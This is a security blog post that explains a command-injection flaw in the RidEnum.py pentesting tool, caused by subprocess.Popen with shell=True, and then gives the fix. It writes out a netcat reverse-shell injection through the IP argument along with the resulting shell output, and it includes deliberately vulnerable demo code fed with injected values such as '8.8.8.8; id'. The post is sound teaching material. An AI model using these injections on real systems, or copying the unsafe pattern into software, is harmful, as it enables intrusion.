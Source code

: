 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Python's Risky Subprocess Module & Leveraging CMDi In A Pentesting Tool
_____________________________________________________________________

I would have never have thought that I would have enjoyed reading other individuals source code as much as I do now. There's just something so gratifying about it. Dissecting someone's application, script or program looking for a flaw to leverage or a lapse in logic that can be manipulated is exhilarating. 

Reading source code from other individuals can give you an insight into a lot of things like some of the below items:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc. (if looking at a piece of malware)
  * What not to do when developing an application, script or program of any sort
  * If alcohol was present during development ;)
  
## Python's Risky Subprocess Module
Python is a fantastic language. It's one of my favorites alongside PowerShell, C# and some others. However, like all computer languages, it doesn't come without its flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
 
The links above focus more in which a user is prompted to provide input via the `input` function in Python, etc. Leveraging command injection via command-line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as it's a script that's only used by a specific group of individuals and you need access to run it locally. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the domain and local machine SID, but that's not important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool is using `Subprocess.Popen` objects to execute a shell command. These appear on the following lines:
 * 62
 * 78
 * 111
 * 256

There are at least two arguments that helped me obtain code execution, which was the argument for the remote host's IP address and the `auth` argument. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (optional username + % + optional password) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken into consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no-no, especially if you allow a user to supply input to your script. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command.

Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little trickier. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This is incorrect, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of junk after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject a Netcat command to give us a reverse shell.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
whoami
tester
```

Note the double quotes surrounding the `IP` argument. The string that represents the `IP` argument is evaluated by the `Popen` object. It's similar to how the `Invoke-Expression` cmdlet works in PowerShell. It evaluates a string that's valid syntax and executes it. Also, note how I placed the `nc` command within the `IP` argument. Why do I need two `;`? If I don't add another `;` to terminate, `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after `-c bash` will keep the reverse shell alive until you exit it.

### More on the `auth` argument
There's an important point I want to address concerning command injection via the `auth` argument. Take a look at line 59 (`command = 'rpcclient -U "%s" %s -c "lsaquery"' % (auth, IP)`) on the GitHub page for ridenum. Note that the data supplied for the `auth` argument is enclosed in additional double-quotes. Thus, the argument will be treated as an actual string rather than an actual bash command. To confirm this, I removed the double quotes that the `auth` argument (`user%pass`) was enclosed in and was able to obtain a reverse shell. So this means that command injection via the `auth` argument being used on line 59 will not be successful. However, on line number 73 (`command = 'rpcclient -U "" %s -c "lookupnames %s"' % (auth, IP)`) a shell command call to invoke rpcclient is made again to use the lookupnames command, but this time the argument given for `auth` is not enclosed in double-quotes. This is where the command will be injected if the `auth` argument is used for injection. Also, take note that this time the `IP` argument is enclosed in double-quotes.

## The Fix
Command/Shell injection via a Python script is that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. Also, breaking down the string referenced by the `command` variable into a list of strings would fix the issue too. Doing this will not treat each string value in subsequent indices as an argument to the string in the first index. You could enclose arguments in literal quotes, but that's not necessary if you implement the two former options.

For example changing `subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)` to `subprocess.Popen(["rpcclient", "-U", "{}".format(auth), "{}".format(ip), "-c", "lsaquery"], stdout=subprocess.PIPE)` removes the chance for command injection. `shell=False` does not have to be explicitly stated as it is a default.


#### You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```

## Resources
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
